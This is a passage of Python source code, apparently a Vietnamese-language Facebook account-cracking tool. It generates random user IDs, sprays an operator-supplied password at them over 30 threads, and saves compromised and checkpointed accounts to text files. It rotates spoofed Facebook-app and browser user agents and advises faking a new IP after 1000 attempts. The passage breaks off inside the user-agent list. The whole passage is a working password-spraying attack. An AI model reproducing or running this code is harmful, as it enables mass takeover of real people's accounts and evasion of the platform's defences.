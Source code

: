 			Public()

		if TRUONG in ["3", "03"]:

			os.system("python Dump.py")

		if TRUONG in ["4", "04"]:

			self.old()

		if TRUONG in ["5", "05"]:

			self.old2()

			exit()

		else:

			print (" Select Correctly ")
			time.sleep(1)
			Main()

	def old(self):
		x = 111111111
		xx = 999999999
		idx = "100000" 
		os.system('clear');print(logo)
		limit = int(input(" \n\033[0;95m[+]\033[0;93m Chọn 50000: "))
		try:
			for n in range(limit):
				_ = random.randint(x,xx)
				__ = idx
				self.id.append(__+str(_))
			
			print("\033[0;93m [+] TOTAL ID -> \033[0;91m%s\033[0;97m"%(len(self.id))) 
			with ThreadPoolExecutor(max_workers=30) as coeg:
				print("\n\033[1;32m [!] Nhập (123456) FOR IDZ\033[1;37m ")
				listpass = input("%s [?] ENTER PASSWORD :%s "%(G,Y))
				if len(listpass)<=5:
					exit("\n%s [!] PASSWORD MINIMUM 6 CHARACTERS"%(B))
				print("%s [*] CRACK WITH PASSWORD -> [\033[0;91m%s\033[0;93m]"%(G,listpass))
				os.system("clear")
				print(logo)
				print("\n%s [+] Acc OK sẽ lưu file -> 2009-TRUONG-OK.txt"%(Y))
				print("%s [+] Acc checkpoint sẽ lưu file -> 2009-TRUONG-CP.txt"%(G))
				print("%s [!] Fake ip khác sau 1000 uid\x1b[0m\n"%(P))
				for user in self.id:
					coeg.submit(self.api, user, listpass.split(","))
			exit("\n\n [>>] CRACK COMPLETE...")
		except Exception as e:exit(str(e))

	def api(self, uid, pwx):
		rua = random.choice([
			"Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z007;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]",
			  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; WOW64; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)",
  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)",
  "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/7.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; CMDTDF; .NET4.0C; .NET4.0E; GWX:QUALIFIED)",
  "Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:40.0) Gecko/20100101 Firefox/40.0.2 Waterfox/40.0.2",
  "Mozilla/5.0 (Linux; Android 5.0; SAMSUNG SM-N900T Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/2.1 Chrome/34.0.1847.76 Mobile Safari/537.36",
  "Mozilla/5.0 (Linux; Android 4.4.2; SM-T217S Build/KOT49H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.84 Safari/537.36",
  "Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; MALNJS; rv:11.0) like Gecko",